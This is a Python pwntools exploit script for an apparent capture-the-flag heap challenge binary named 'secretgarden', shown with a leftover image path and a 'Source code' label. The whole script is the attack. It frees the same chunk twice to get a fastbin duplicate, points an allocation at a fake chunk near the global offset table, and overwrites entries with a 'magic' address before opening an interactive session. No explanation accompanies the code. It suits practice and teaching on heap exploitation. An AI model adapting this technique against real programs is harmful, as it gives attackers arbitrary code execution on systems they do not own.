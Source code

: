```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./secretgarden')

def raiseflower(length,name,color):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(length))
    r.recvuntil(":")
    r.sendline(name)
    r.recvuntil(":")
    r.sendline(color)

def visit():
    r.recvuntil(":")
    r.sendline("2")

def remove(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

def clean():
    r.recvuntil(":")
    r.sendline("4")


magic = 0x400c7b
fake_chunk = 0x601ffa
raiseflower(0x50,"da","red")#0
raiseflower(0x50,"da","red")#1
remove(0)
remove(1)
remove(0)
raiseflower(0x50,p64(fake_chunk),"blue")
raiseflower(0x50,"da","red")
raiseflower(0x50,"da","red")

raiseflower(0x50,"a"*6 + p64(0) + p64(magic)*2 ,"red")#malloc in fake_chunk

r.interactive()
```
